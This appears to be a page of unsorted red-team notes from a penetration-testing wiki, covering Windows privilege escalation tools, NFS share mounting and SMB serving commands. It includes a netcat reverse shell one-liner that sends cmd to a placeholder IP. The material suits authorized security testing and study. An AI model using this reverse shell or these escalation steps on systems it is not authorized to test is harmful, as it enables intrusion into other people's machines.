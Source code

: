 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Red Team Notes

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

## Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

## Shares

### Mounting NFS Shares Remotely

{% embed url="https://resources.infosecinstitute.com/exploiting-nfs-share/" %}

```text
showmount -e <ip>
<list of mounts>
mkdir /tmp/<foldername?
mount -t nfs <ip>:/<mount-folder> /tmp/<foldername>
```

## Unsorted

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`

